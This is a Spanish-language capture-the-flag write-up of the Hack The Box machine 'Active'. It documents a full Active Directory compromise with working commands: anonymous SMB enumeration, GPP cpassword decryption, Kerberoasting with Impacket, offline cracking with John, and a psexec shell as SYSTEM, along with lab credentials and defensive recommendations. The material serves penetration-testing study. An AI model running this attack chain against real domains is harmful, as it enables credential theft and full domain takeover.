

# Active — Hack The Box (práctica CPTS)

**Plataforma:** Hack The Box
**Dificultad:** 🟢 Fácil
**SO:** Windows (Active Directory)
**Certificación:** Práctica adicional para el CPTS (Certified Penetration Testing Specialist)
**Fecha de resolución:** 2026
**Técnicas:** Nmap · `enum4linux` · SMB anónimo (share `Replication`) · **GPP cpassword** en `Groups.xml` (`gpp-decrypt`) · **Kerberoasting** (`GetUserSPNs`) sobre una cuenta con SPN · John the Ripper · Pass-the-password con `psexec` → SYSTEM
**Idioma:** Español — [🇬🇧 English version](./Active_Writeup_EN.md)

---

## Índice
1. [Reconocimiento](#1-reconocimiento)
2. [Enumeración SMB — GPP cpassword](#2-enumeración-smb--gpp-cpassword)
3. [Acceso — Kerberoasting sobre una cuenta con SPN](#3-acceso--kerberoasting-sobre-una-cuenta-con-spn)
4. [Obtención de shell](#4-obtención-de-shell)
5. [Post-explotación y flags](#5-post-explotación-y-flags)
6. [Lección aprendida](#6-lección-aprendida)
7. [Glosario de herramientas y comandos](#7-glosario-de-herramientas-y-comandos)
8. [Flujo de ataque](#8-flujo-de-ataque)

---

## 1. Reconocimiento

```bash
ping -c 1 10.129.76.40
```

> 🛠️ **`ping`** — comprueba disponibilidad del host por ICMP. TTL **127** → sistema **Windows**.


Escaneo completo de puertos TCP:

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- -oN AllPorts 10.129.76.40
```

> 🛠️ **`nmap -sS -Pn -vvv --min-rate 5000 --open -n -p-`** — escaneo SYN de los 65535 puertos: `-sS` (sigiloso), `-Pn` (ignora el estado del ping), `--min-rate 5000` (acelera el envío), `--open` (solo puertos abiertos), `-n` (sin resolución DNS).


```bash
enum-nmap AllPorts
```

> 🛠️ **`enum-nmap`** — script propio que resume la salida de Nmap: IP, TTL, SO estimado y lista de puertos lista para el siguiente `-p`.


> 💡 22 puertos abiertos, entre ellos **53 (DNS), 88 (Kerberos), 389/636/3268/3269 (LDAP/LDAPS/Global Catalog), 445 (SMB) y 9389 (ADWS)** — el conjunto de servicios característico de un **controlador de dominio de Active Directory**.

Escaneo de versión y scripts por defecto:

```bash
nmap -sS -Pn -sCV -T5 -n -p53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,49152,49153,49154,49155,49157,49158,49165,49166,49168 -oN Ports 10.129.76.40
```

> 🛠️ **`-sCV`** combina `-sC` (scripts por defecto de Nmap) con `-sV` (detección de versión de servicio).


```
53/tcp  open  domain  Microsoft DNS 6.1.7601 (Windows Server 2008 R2 SP1)
389/tcp open  ldap    Microsoft Windows Active Directory LDAP (Domain: active.htb, ...)
Service Info: Host: DC; OS: Windows
```

> 💡 Dominio **`active.htb`**, controlador de dominio **`DC`**, Windows Server 2008 R2 SP1 — una versión de Windows Server bastante antigua, consistente con una máquina de dificultad Fácil centrada en fallos de configuración clásicos más que en vulnerabilidades modernas.

## 2. Enumeración SMB — GPP cpassword

```bash
enum4linux 10.129.76.40 -A
```

> 🛠️ **`enum4linux -A`** — herramienta de enumeración SMB/AD todo-en-uno (información del sistema, políticas de contraseñas, usuarios, grupos, shares...) usando sesiones nulas/anónimas cuando el servidor las permite.


Enumeración de shares SMB:


```
ADMIN$      Disk  Remote Admin
C$          Disk  Default share
IPC$        IPC   Remote IPC
NETLOGON    Disk  Logon server share
Replication Disk
SYSVOL      Disk  Logon server share
```

> 💡 El share **`Replication`** (no estándar, normalmente este rol lo cumple `SYSVOL`) permite listado anónimo (`Listing: OK`), a diferencia del resto de shares administrativos que requieren autenticación. En un controlador de dominio real, este tipo de share replica el contenido de las Políticas de Grupo (GPOs) entre controladores — y, por su naturaleza, puede contener ficheros de configuración con información sensible.

### Encontrando Groups.xml

Nos conectamos de forma anónima:

```bash
smbclient //10.129.76.40/Replication
```

> 🛠️ **`smbclient //<IP>/<share>`** (sin `-U`) — intenta una sesión SMB anónima/nula por defecto si no se especifica usuario.


Navegando por la estructura típica de replicación de GPOs (`Policies\{GUID}\MACHINE\Preferences\Groups\`), encontramos un `Groups.xml`:

```
smb: \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups> ls
smb: \...\Groups> get Groups.xml
```


```xml
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
  <User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" ...
    cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
    ... userName="active.htb\SVC_TGS"/>
</Groups>
```


### ¿Qué es GPP cpassword y por qué es crackeable?

**Group Policy Preferences (GPP)** es una característica de Active Directory que permite, entre otras cosas, desplegar cuentas de usuario y grupos locales en los equipos del dominio a través de una GPO — incluyendo, si el administrador lo configuraba así, una **contraseña inicial** para esa cuenta. Esa contraseña se almacena en el atributo **`cpassword`** del fichero `Groups.xml`, cifrada con **AES-256**.

El problema: Microsoft **publicó la clave AES simétrica** usada para este cifrado en su documentación pública (MSDN), porque GPP nunca fue diseñado para proteger secretos a largo plazo — solo para ofuscar la contraseña durante el despliegue. Como la clave es la misma para **todas** las instalaciones de Windows, cualquiera que consiga leer un `Groups.xml` con `cpassword` puede descifrarlo en segundos. Microsoft respondió a esto con el boletín de seguridad **MS14-025** (2014), que impide crear **nuevas** GPP con contraseñas desde la consola de administración — pero no elimina retroactivamente las que ya existían, como la de esta máquina.

Añadimos el dominio al `/etc/hosts`:


Desciframos la contraseña:

```bash
gpp-decrypt 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ'
```

> 🛠️ **`gpp-decrypt`** — herramienta (incluida en Kali) que descifra directamente un valor `cpassword` usando la clave AES pública de Microsoft, sin necesidad de implementarlo manualmente.


```
GPPstillStandingStrong2k18
```

Validamos las credenciales obtenidas (`active.htb\SVC_TGS`) contra el dominio:

```bash
crackmapexec smb 10.129.76.40 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'
```

> 🛠️ **`crackmapexec smb -u -p`** — intenta autenticar contra SMB con las credenciales dadas; confirma si son válidas y aporta información adicional (versión de SO, dominio) sin necesidad de abrir una sesión completa.


```
[+] active.htb\SVC_TGS:GPPstillStandingStrong2k18
```

## 3. Acceso — Kerberoasting sobre una cuenta con SPN

### ¿Qué es un SPN y por qué permite Kerberoasting?

Un **SPN (Service Principal Name)** identifica de forma única una instancia de un servicio en una cuenta concreta de Active Directory — por ejemplo, `active/CIFS:445` indica "el servicio CIFS en el host `active`, puerto 445". Cuando un cliente quiere usar ese servicio, Kerberos le permite pedir al KDC un **ticket de servicio (TGS)** específico para ese SPN, usando únicamente sus propias credenciales de dominio — **sin necesidad de ningún permiso especial sobre la cuenta dueña del SPN**.

La parte crítica: ese TGS se cifra (en parte) con una clave derivada de la **contraseña de la cuenta a la que pertenece el SPN**. Como cualquier usuario autenticado del dominio puede solicitar ese ticket legítimamente — es una operación Kerberos estándar, no un fallo — y el ticket viaja cifrado con esa clave, es posible llevárselo y **intentar crackearlo offline** para recuperar la contraseña en claro de la cuenta del SPN. A esta técnica se la conoce como **Kerberoasting**, y es efectiva contra cualquier cuenta con SPN cuya contraseña sea lo bastante débil como para aparecer en un diccionario o ser fuerza-bruteada en un tiempo razonable.

Con la cuenta de dominio obtenida, enumeramos qué cuentas tienen un SPN asociado:

```bash
GetUserSPNs.py -dc-ip 10.129.76.40 'active.htb/SVC_TGS:GPPstillStandingStrong2k18'
```

> 🛠️ **`GetUserSPNs.py`** (Impacket) — consulta LDAP para listar todas las cuentas de **usuario** (no de equipo) que tienen un atributo `servicePrincipalName` configurado — el requisito previo para que Kerberoasting sea aplicable a esa cuenta.


```
ServicePrincipalName   Name            MemberOf
---------------------  --------------  --------------------------------------------------------
active/CIFS:445        Administrator   CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb
```

> 💡 **Hallazgo clave de esta máquina:** el SPN `active/CIFS:445` está asociado directamente a la cuenta **`Administrator`** — no a una cuenta de servicio de bajo privilegio, como sería lo habitual en un entorno bien configurado. Esto es una configuración poco frecuente y arriesgada, pero el mecanismo de ataque sigue siendo exactamente el mismo: no hace falta ningún permiso especial sobre `Administrator` para pedir ese ticket, solo estar autenticado en el dominio.

Solicitamos el ticket de servicio (TGS) para ese SPN:

```bash
GetUserSPNs.py -dc-ip 10.129.76.40 'active.htb/SVC_TGS:GPPstillStandingStrong2k18' -request
```

> 🛠️ **`-request`** — además de listar las cuentas con SPN, solicita activamente el TGS correspondiente y lo imprime en formato `$krb5tgs$`, listo para herramientas de cracking offline como John o Hashcat.


```
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$3bd4889daedc08827e83fc37930731d3$...
```

> 💡 Esta solicitud de ticket es indistinguible, desde el punto de vista del DC, de cualquier otra petición legítima de acceso al servicio `CIFS` — no dispara ninguna alerta de "intento de ataque" por sí misma. Por eso Kerberoasting es una técnica tan popular: el riesgo de detección en el momento de la extracción del hash es mínimo; el cracking ocurre completamente offline, en la máquina del atacante.

Crackeamos el hash TGS:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

> 🛠️ **`john --wordlist=<fichero> <hash>`** — ataque de diccionario; John detecta automáticamente que es un hash Kerberos 5 TGS etype 23 (RC4-HMAC), el formato que genera un Kerberoast contra una cuenta sin cifrado AES configurado.


```
Ticketmaster1968
```

> 🔒 Esta contraseña es, en la práctica, la credencial final de la máquina — se documenta aquí porque es el resultado directo y necesario del Kerberoasting (el objetivo pedagógico de esta sección), no un atajo hacia las flags. El contenido de `user.txt`/`root.txt` sigue sin publicarse (ver §5).

## 4. Obtención de shell

Con la contraseña en claro de **Administrator**, pass-the-password directo con `psexec`:

```bash
psexec.py active.htb/Administrator:Ticketmaster1968@10.129.76.40 cmd.exe
```

> 🛠️ **`psexec.py`** (Impacket) — recreación del PsExec de Sysinternals: sube un binario de servicio temporal a `ADMIN$`, lo registra con el Service Control Manager y lo arranca, obteniendo una shell con los privilegios de la cuenta usada para autenticar.


```
whoami
nt authority\system
```

> 💡 El servicio que lanza `psexec` corre como **`NT AUTHORITY\SYSTEM`**, no solo como Administrator — el nivel de privilegio máximo en Windows, obtenido aquí directamente desde la contraseña crackeada, sin ningún paso de escalada adicional.

```
whoami /all
```


## 5. Post-explotación y flags

Shell de SYSTEM confirmada en el controlador de dominio — compromiso total acreditado.

> 🔒 Las capturas disponibles no incluyen la lectura explícita del contenido ni de la ruta de `user.txt`/`root.txt`; no se documentan aquí por no poder verificarlas contra las capturas, siguiendo la misma política de no regalar la respuesta a quien esté practicando esta máquina.

## 6. Lección aprendida

| Vulnerabilidad | Dónde | Impacto |
|----------------|-------|---------|
| Share SMB con listado anónimo habilitado | `Replication` | Expone la estructura interna de replicación de GPOs sin ninguna credencial |
| Contraseña de GPP cifrada con una clave AES públicamente conocida | `Groups.xml` | Cualquiera con acceso de lectura obtiene la contraseña en claro de la cuenta `SVC_TGS` |
| SPN asignado directamente a la cuenta `Administrator` en vez de a una cuenta de servicio dedicada | Atributo `servicePrincipalName` | Cualquier usuario autenticado puede solicitar un ticket Kerberos crackeable para la cuenta más privilegiada del dominio (**Kerberoasting**) |
| Contraseña de Administrator débil, presente en `rockyou.txt` | Cuenta `Administrator` | Compromiso total del dominio tras crackear el hash TGS |

## Recomendaciones defensivas

- Deshabilitar el listado anónimo en shares SMB; auditar periódicamente los permisos de `NETLOGON`, `SYSVOL` y cualquier carpeta de replicación.
- Eliminar cualquier GPP con contraseñas almacenadas (`cpassword`); Microsoft recomienda este cambio desde MS14-025. Rotar cualquier credencial que haya podido quedar expuesta así.
- Nunca asociar un SPN directamente a una cuenta privilegiada como Administrator; usar siempre cuentas de servicio dedicadas con el mínimo privilegio necesario.
- Exigir contraseñas robustas y largas en todas las cuentas de dominio, especialmente en cuentas con SPN (candidatas directas a Kerberoasting) y en cuentas privilegiadas.
- Monitorizar solicitudes de tickets de servicio (TGS) inusuales para cuentas privilegiadas, como indicador de un posible Kerberoasting.
- Considerar **Managed Service Accounts (gMSA)** para cuentas de servicio, que usan contraseñas gestionadas automáticamente, largas (120+ caracteres) y rotadas periódicamente — inmunes en la práctica al cracking offline.

## 7. Glosario de herramientas y comandos

| Herramienta / comando | Para qué sirve |
|------------------------|-----------------|
| `ping` / `nmap` | Descubrimiento de host y enumeración de puertos/servicios |
| `enum-nmap` | Script propio que resume la salida de Nmap |
| `enum4linux -A` | Enumeración SMB/AD todo-en-uno usando sesiones nulas/anónimas |
| `smbclient //IP/share` | Cliente SMB interactivo; sin `-U` intenta sesión anónima/nula |
| **GPP / `Groups.xml` / `cpassword`** | Fichero de despliegue de Group Policy Preferences que puede contener una contraseña cifrada con una clave AES pública de Microsoft, crackeable trivialmente |
| `gpp-decrypt` | Descifra directamente un valor `cpassword` de GPP |
| `crackmapexec smb -u -p` | Valida credenciales contra SMB/AD sin abrir una sesión completa |
| **SPN (Service Principal Name)** | Identifica una instancia de un servicio en una cuenta de AD; requisito para que esa cuenta sea objetivo de Kerberoasting |
| `GetUserSPNs.py` (sin `-request`) | Enumera por LDAP las cuentas de usuario con SPN asociado |
| `GetUserSPNs.py -request` | Solicita el TGS de cada cuenta con SPN y lo exporta en formato `$krb5tgs$` para crackeo offline |
| **Kerberoasting** | Técnica que abusa de que cualquier usuario autenticado puede pedir un TGS para cualquier cuenta con SPN, cifrado con la clave derivada de su contraseña, y crackearlo offline |
| `john --wordlist=<fichero> <hash>` | Ataque de diccionario con John the Ripper; detecta automáticamente el formato Kerberos 5 TGS etype 23 |
| **Pass-the-password** | Autenticarse directamente con una contraseña en claro ya obtenida, sin pasos intermedios |
| `psexec.py` | Recreación de PsExec; sube y ejecuta un servicio temporal en la víctima, obteniendo una shell con los privilegios de la cuenta usada (aquí, Administrator → SYSTEM) |

## 8. Flujo de ataque



> 💡 **El porqué de cada paso:** el listado anónimo de SMB es casi siempre el primer sitio donde buscar en una máquina AD "fácil", porque no cuesta nada probarlo. `Groups.xml` se busca específicamente porque GPP es una fuente de credenciales histórica y muy conocida (clave AES filtrada por el propio Microsoft). Una vez con credenciales de dominio válidas — por bajas que sean sus privilegios — **siempre** merece la pena enumerar SPNs: Kerberoasting no requiere ningún permiso especial sobre la cuenta objetivo, solo que tenga un SPN asignado, porque solicitar un TGS es una operación Kerberos estándar disponible para cualquier usuario autenticado del dominio. En Active, la peculiaridad es que el SPN vulnerable pertenece directamente a Administrator — normalmente pertenecería a una cuenta de servicio de menor privilegio, y el camino continuaría pivotando con esa cuenta en vez de terminar directamente en SYSTEM.

---

*Escrito por [Arabot](https://github.com/Caan31) · Hack The Box · práctica CPTS · 2026*
